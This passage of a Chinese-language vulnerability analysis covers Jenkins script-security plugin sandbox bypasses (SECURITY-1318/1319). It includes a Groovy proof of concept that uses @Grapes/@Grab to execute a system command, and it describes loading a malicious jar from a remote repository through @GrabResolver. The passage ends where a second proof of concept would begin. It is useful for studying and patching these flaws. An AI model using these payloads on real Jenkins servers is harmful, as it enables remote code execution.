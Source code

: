 需要额外创建恶意jar包并放在`~/.groovy/grapes/jars`目录，较鸡肋，配合`@GrabResolver`从远程获取恶意类更方便触发，详细分析参考[SECURITY-1319]{#SECURITY-1319}

#### 补丁

- jenkinsci/script-security-plugin [commit](https://github.com/jenkinsci/script-security-plugin/commit/35119273101af26792457ec177f34f6f4fa49d99)

- 版本：1.51

- 概述：在1.50的修复中新增了一个`RejectASTTransformsCustomizer`类用来拦截黑名单，但是在`SecureGroovyScript#DescriptorImpl`的`doCheckScript()`方法中并没有调用，在该版本修改了直接parse的过程

    ![1570781824987](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1570781824987.png)

    createSecureCompilerConfiguration()方法即在[SECURITY-1266](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266)中新增的修复方法

    ![1570782051460](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1570782051460.png)



### SECURITY-1318

`@Grapes`可以进行多重注释，如

```java
@Grapes([
   @Grab(group='commons-primitives', module='commons-primitives', version='1.0'),
   @Grab(group='org.ccil.cowan.tagsoup', module='tagsoup', version='0.9.7')])
class Example {
// ...
}
```

所以上面的`@Grab`可以放进`@Grapes`中，效果是一样的，以此来绕过黑名单

#### PoC

```java
@Grapes([@Grab('org.zeroturnaround:zt-exec:1.11'), @GrabConfig(systemClassLoader=false)])
import org.zeroturnaround.exec.ProcessExecutor;
new ProcessExecutor().command("calc").execute();
```

### SECURITY-1319

使用`@GrabResolver`可以从指定仓库下载依赖文件，如

```java
@GrabResolver(name='restlet', root='http://maven.restlet.org/')
@Grab(group='org.restlet', module='org.restlet', version='1.1.6')
```

这里的root可以指定任意地址，也就可以从远程获取恶意jar文件，这也是Orange在[Hacking Jenkins Part 2](https://devco.re/blog/2019/02/19/hacking-Jenkins-part2-abusing-meta-programming-for-unauthenticated-RCE/)提到的方法

#### PoC
